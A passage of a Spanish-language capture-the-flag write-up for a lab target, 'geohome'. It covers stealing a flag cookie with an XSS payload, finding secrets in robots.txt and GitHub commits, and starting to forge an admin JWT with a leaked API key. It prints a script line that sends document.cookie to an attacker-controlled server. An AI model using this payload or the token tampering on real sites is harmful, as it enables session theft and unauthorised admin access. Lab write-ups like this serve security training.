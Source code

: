 Y en el input ingresamos el siguiente código para robar las cookies.
```html
<script>var i=new Image;i.src="http://192.168.100.77:8888/?"+document.cookie;</script>
```
Y nuestro servidor nos da la respuestas junto con la cookie que es la flag.

![PNG](/images/Pasted%20image%2020221031132345.png)

---
## FLAG{ALWAYS_CHECK_COMMITS}
Viendo que en el puerto 443 hay un `robots.txt` el cual contiene un comentario con `# https://wp.geohome.com`
Editamos `/etc/hosts` y agregamos la entrada para la IP.
`[IP_VM]    wp.geohome.com`

Abrimos el enlace `https://wp.geohome.com`
Y nos manda a esta pagina.

![PNG](/images/Pasted%20image%2020221031124419.png)

Done al pie de pagina hay un enlace a un repositorio de GitHub.

![PNG](/images/Pasted%20image%2020221031124516.png)

Donde en uno de los commits conseguimos la flag.

![PNG](/images/Pasted%20image%2020221031124623.png)

---
## API_FLAG{Never_public_your_secret}

Viendo el `FLAG{ALWAYS_CHECK_COMMITS}` commit obtenemos la API key.

![PNG](/images/Pasted%20image%2020221031133816.png)

Y en el `README.md` vemos como podemos registrar y hacer login, mandando como parámetros el `username` y `password`.

![PNG](/images/Pasted%20image%2020221031134021.png)
En nuestro `nmap` vimos el puerto 5000 abierto, y con la pista del reto como texto.
Por lo que a traves de ese puerto se envían los requests.
Abrimos `Postman`.
E ingresamos la URL http://wp.geohome.com:5000/register y enviamos la contraseña y usuario en formato JSON.

![PNG](/images/Pasted%20image%2020221031134458.png)

Una vez registrado hacemos login.

![PNG](/images/Pasted%20image%2020221031134617.png)

Ahora con el `access_token` vamos a [jwt.io](https://jwt.io), e ingresamos nuestro token.
Modificamos `sub`, ponemos `admin`, e ingresamos la API key en el payload.

